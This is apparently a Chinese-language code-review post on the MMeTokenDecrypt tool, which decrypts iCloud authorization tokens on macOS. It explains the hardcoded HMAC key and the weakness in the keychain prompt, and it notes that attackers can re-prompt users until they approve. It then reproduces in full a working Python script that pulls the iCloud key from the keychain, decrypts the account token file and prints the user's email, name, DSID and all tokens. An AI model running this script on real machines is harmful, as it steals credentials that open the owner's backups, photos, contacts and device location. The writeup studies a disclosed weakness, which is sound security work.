

# 实验code review 解码苹果上所有的Tokens decrypts/extracts all authorization tokens on macOS/OSX

工具: [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)

作者: [kiba](https://github.com/ovekiba/)


--------


# 介绍

工具[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)中提供了一个脚本，用于解码出macOS/OS X/OSX上所有的授权口令。这是因为系统中授权钥匙链访问方式有漏洞造成的。

授权口令存放在文件**/Users/用户名/Library/Application Support/iCloud/Accounts/DSID**中，其中DSID是一个数字，是苹果对于每个iCloud账号在系统后端中的标识符。

其中DSID文件使用一个空的初始化向量和AES-128 CBC算法加密。用于解密这个文件的密匙存放在用户的钥匙串中，在系统服务iCloud下，名字是和iCloud账号关联的首选邮箱。

得到了iCloud中与帐号关联的首选邮箱的密匙后，该密匙格式是base64，用base64解码后，作为标准哈希消息认证码(Hmac，Hash-based Message Authentication Code)算法中的消息使用。而问题在于，这儿的Hmac算法中使用的密匙是硬编码到MacOS系统内部中的。解密DSID文件的密匙是44个字符长的随机字母，即"t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"。


# 意义

唯一拥有类似功能的软件是“Elcomsoft Phone Breaker”，[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)允许任何开发者在他们的项目中解密iCloud授权的文件，此工具是开源的。

苹果需要重新设计钥匙链的请求方式来避免此问题。因为此工具fork一个新的安全的、苹果签名了的进程来解密授权文件，用户对弹出的钥匙链请求对话框叶不会警觉。不仅如此，攻击者可以重复的请求访问钥匙链，直到用户同意访问，因为苹果并未限制被拒绝后需要等待的时间。这就允许解码iCloud的所有授权口令，这些口令就能用于访问几乎所有的iCloud服务器，包括（iOS备份，iCloud联系人，iCloud照片库，查找我的朋友，定位我的手机）。

# 验证

验证脚本如下：
```python
#!/usr/bin/env python
#coding: utf-8

## 导入使用的库
import base64, hashlib, hmac, subprocess, sys, glob, os, binascii
from Foundation import NSData, NSPropertyListSerialization

# 获取iCloud的密匙
iCloudKey = subprocess.check_output("security find-generic-password -ws 'iCloud' | awk {'print $1'}", shell=True).replace("\n", "")
if iCloudKey == "":
	print "ERROR getting iCloud Decryption Key"
	sys.exit()

# 解码iCloud的密匙
msg = base64.b64decode(iCloudKey)

# 硬编码在系统中的字符串
#Constant key used for hashing Hmac on all versions of MacOS. 
#this is the secret to the decryption!
#/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit yields the following subroutine
#KeychainAccountStorage _generateKeyFromData:
#that uses the below key that calls CCHmac to generate a Hmac that serves as the decryption key
key = "t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"

# 将iCloud解码后的数据作为Hmac中的消息
# 将硬编码在系统中的字符串作为Hmac中的密匙
# md5算法作为Hmac中的哈希算法
#create Hmac with this key and iCloudKey using md5
hashed = hmac.new(key, msg, digestmod=hashlib.md5).digest()
hexedKey = binascii.hexlify(hashed) #turn into hex for openssl subprocess

# 空的加密向量
IV = 16 * '0'

#找到DSID文件
mmeTokenFile = glob.glob("%s/Library/Application Support/iCloud/Accounts/*" % os.path.expanduser("~"))
for x in mmeTokenFile:
	try:
		int(x.split("/")[-1]) #if we can cast to int, that means we have the DSID / account file. 
		mmeTokenFile = x
	except ValueError:
		continue
if not isinstance(mmeTokenFile, str):
	print "Could not find MMeTokenFile. You can specify the file manually."
	sys.exit()
else:
	print "Decrypting token plist -> [%s]\n" % mmeTokenFile

# 利用算法aes-128 cbc解码DSID文件
#perform decryption with zero dependencies by using openssl binary
decryptedBinary = subprocess.check_output("openssl enc -d -aes-128-cbc -iv '%s' -K %s < '%s'" % (IV, hexedKey, mmeTokenFile), shell=True)

# 分析文件
#convert the decrypted binary plist to an NSData object that can be read
binToPlist = NSData.dataWithBytes_length_(decryptedBinary, len(decryptedBinary))
#convert the binary NSData object into a dictionary object
tokenPlist = NSPropertyListSerialization.propertyListWithData_options_format_error_(binToPlist, 0, None, None)[0]
#ta-da
print "Successfully decrypted token plist!\n"
print "%s [%s -> %s]" % (tokenPlist["appleAccountInfo"]["primaryEmail"], tokenPlist["appleAccountInfo"]["fullName"], tokenPlist["appleAccountInfo"]["dsPrsID"])
print tokenPlist["tokens"]

```

执行结果：

